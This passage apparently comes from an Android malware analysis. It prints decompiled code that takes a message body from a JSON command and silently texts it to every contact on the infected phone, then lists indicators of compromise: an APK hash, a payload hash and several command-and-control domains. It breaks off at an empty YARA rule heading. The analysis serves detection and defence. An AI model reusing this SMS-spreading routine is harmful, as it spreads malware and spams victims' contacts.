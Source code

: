 ```cs
            String s = JsonUtils.hasObject(jsonObject0, "bulk_body") ? jsonObject0.get("bulk_body").getAsString() : "";
            if(!TextUtils.isEmpty(s)) {
                this.sendBulkSms(s, this.getContactList());
            }
        }
    }

    private void sendBulkSms(String s, List list0) {
        for(Object object0: list0) {
            this.sendSMS(((String)object0).replace(" ", ""), s);
            try {
                Thread.sleep(300L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }
        }
    }

    public void sendSMS(String s, String s1) {
        try {
            SmsManager.getDefault().sendTextMessage(s, null, s1, null, null);
        }
        catch(Exception unused_ex) {
        }
    }

```



# IoCs


APK hash: `8b321553f1a269ee4b68a02162ba2d14c71a92907b6001ff3db0fe5bae6b3430`

Payload (KCFj.json) hash: `fd87c4f7c8ece0448dab67a0b689c4a417a153081059750295fbed29a1422b03`

C2 server: 

http://lalabanda.com

Related C2 servers:

http://cslon.com

http://cariciu-carilas.com

http://carilas-carilas.net

http://carilas-carilas.top


# Yara rule
